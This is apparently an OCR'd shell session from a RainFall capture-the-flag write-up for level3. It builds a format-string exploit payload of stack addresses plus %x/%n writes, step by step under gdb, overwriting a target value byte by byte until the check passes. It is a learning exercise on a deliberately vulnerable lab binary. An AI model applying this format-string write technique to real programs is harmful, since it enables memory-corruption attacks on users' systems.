 ```bash
level3@RainFall:~$ echo -n -e '\x5c\xf4\xff\xbf''\x5d\xf4\xff\xbf''\x5e\xf4\xff\xbf''\x5f\xf4\xff\xbf''%212x%4$n' > /tmp/input
level3@RainFall:~$ gdb ./level3
...
(gdb) run < /tmp/input
Starting program: /home/user/level3/level3 < /tmp/input

Program received signal SIGSEGV, Segmentation fault.
0x000000e4 in ?? ()

# For the 2nd byte (0x84 / 132): add 132 to (256 - 228)

level3@RainFall:~$ echo -n -e '\x5c\xf4\xff\xbf''\x5d\xf4\xff\xbf''\x5e\xf4\xff\xbf''\x5f\xf4\xff\xbf''%212x%4$n''%160x%5$n' > /tmp/input

level3@RainFall:~$ gdb ./level3
...
(gdb) run < /tmp/input
Starting program: /home/user/level3/level3 < /tmp/input

Program received signal SIGSEGV, Segmentation fault.
0x000184e4 in ?? ()

# For the 3rd byte (0x04 / 4): add 4 to (256 - 132)

level3@RainFall:~$ echo -n -e '\x5c\xf4\xff\xbf''\x5d\xf4\xff\xbf''\x5e\xf4\xff\xbf''\x5f\xf4\xff\xbf''%212x%4$n''%160x%5$n''%127x%6$n' > /tmp/input
level3@RainFall:~$ gdb ./level3
...
(gdb) run </tmp/input
Starting program: /home/user/level3/level3 </tmp/input

Program received signal SIGSEGV, Segmentation fault.
0x020384e4 in ?? ()

# For the 4th byte (0x08 / 8): add 4 to 256

level3@RainFall:~$ echo -n -e '\x5c\xf4\xff\xbf''\x5d\xf4\xff\xbf''\x5e\xf4\xff\xbf''\x5f\xf4\xff\xbf''%212x%4$n''%160x%5$n''%128x%6$n''%260x%7$n' > /tmp/input
level3@RainFall:~$ gdb ./level3
...
(gdb) run < /tmp/input
Starting program: /home/user/level3/level3 < /tmp/input
\�]�^�_�                                                                                                                                                                                                                 200                                                                                                                                                        b7fd1ac0                                                                                                                        b7ff37d0                                                                                                                                                                                                                                                            bffff45cWait what?!
[Inferior 1 (process 28545) exited normally]
```
